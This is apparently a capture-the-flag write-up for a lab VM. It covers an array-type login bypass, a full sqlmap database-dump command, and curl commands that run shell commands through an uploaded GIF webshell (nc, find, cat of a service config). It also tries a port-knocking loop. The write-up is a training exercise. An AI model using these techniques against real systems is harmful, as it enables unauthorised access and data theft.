 Loads up a login page, upon viewing the page source I find:
{% highlight html %}

{% endhighlight %}
I remembered seeing emails on the contact page, went page and sure enough roger is a user, rmichaels is his email.

Trying the user it seems the user is valid.

After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms

{% highlight bash %}
sqlmap --url http://172.16.161.129/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
{% endhighlight %}
Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.

Another flag: flag4{dXBsb2Fkcjk0Mi5waHA=} which decodes to: uploadr942.php

flag5{YWdlbnRzZXJ2aWNlcw==} which decodes to: agentservices

Running ps -A through the webshell created to get flag5 I'm able to see all the processes running on the remote machine.  One item that loks interesting is knockd, usually this would indicate that a port knocking sequence exists to open a service up to the public.

Running: netstat -vatn shows a list of the processes listening on TCP, 7788 and 22 look interesting

Trying to knock the default ports (7000 8000 9000)
{% highlight bash %}
for x in 7000 8000 9000; do nmap -T4 -p $x 192.168.1.20;done;
{% endhighlight %}
No luck though when trying to hit the interesting ports.

Trying to hit port 7788:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
{% endhighlight %}
I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
{% endhighlight %}
Which found:
/etc/xinetd.d/agent
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
{% endhighlight %}
Gets:
{% highlight nginx %}
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
